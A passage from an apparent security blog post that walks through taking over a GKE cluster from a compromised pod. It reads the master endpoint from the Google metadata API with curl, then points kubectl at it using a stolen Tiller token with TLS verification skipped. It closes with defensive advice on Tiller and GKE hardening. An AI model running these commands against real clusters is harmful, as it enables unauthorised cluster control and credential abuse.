 Working from within the cluster is annoying though, since it is always going to require us to execute commands from our compromised pod. Since this is a GKE cluster, we should be able to access the Kubernetes API over the internet if we find the correct endpoint.

For GKE, you can pull data about the Kubernetes cluster (including the master endpoint) from the Google Cloud Metadata API from the compromised pod:

```bash
$ curl -s -kH "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env | grep KUBERNETES_MASTER_NAME
KUBERNETES_MASTER_NAME: 104.154.18.15
```

Armed with the IP address and Tiller's token, you can then configure kubectl from anywhere to talk to the GKE cluster on that endpoint:

```bash
$ kubectl config set-cluster pwnedgke --server=https://104.154.18.15
$ kubectl config set-credentials tiller --token=$TILLER_TOKEN
$ kubectl config set-context pwnedgke --cluster pwnedgke --user tiller
$ kubectl config use-context pwnedgke
$ kubectl --insecure-skip-tls-verify cluster-info
```
*Note: I'm skipping TLS verify because I didn't configure the cluster certificate*

For example, let's take over the GKE cluster from Kali:
![kali_cluster_admin](/images/2019/01/kali_cluster_admin.png)

And that's it - we have full admin control over this GKE cluster :)

There is a ton more we can do to maintain persistence (especially after dumping all the secrets previously), but that will remain a topic for future posts.

# Defenses
This entire scenario was created to demonstrate how the "default" installation of Helm and Tiller (as well as GKE) can make it really easy for an attacker to escalate privileges and take over the entire cluster if a pod is compromised.

If you are considering using Helm and Tiller in production, I ***strongly*** recommend following everything outlined here:

https://github.com/helm/helm/blob/master/docs/securing_installation.md 

mTLS should be configured for Tiller, and RBAC should be as locked down as possible. Or don't create a Tiller service and require admins to do manual port forwards to the pod. 

Or ask yourself if you really need Tiller at all - I have seen more and more organizations simply abandon Tiller all together and just use [Helm client-side for templating](https://blog.giantswarm.io/what-you-yaml-is-what-you-get/).

For GKE, Google has a good writeup as well on securing a cluster for production: 

https://cloud.google.com/solutions/prep-kubernetes-engine-for-prod. 

Using VPCs, locking down access, filtering metadata, and enforcing network policies should be done at a minimum. 
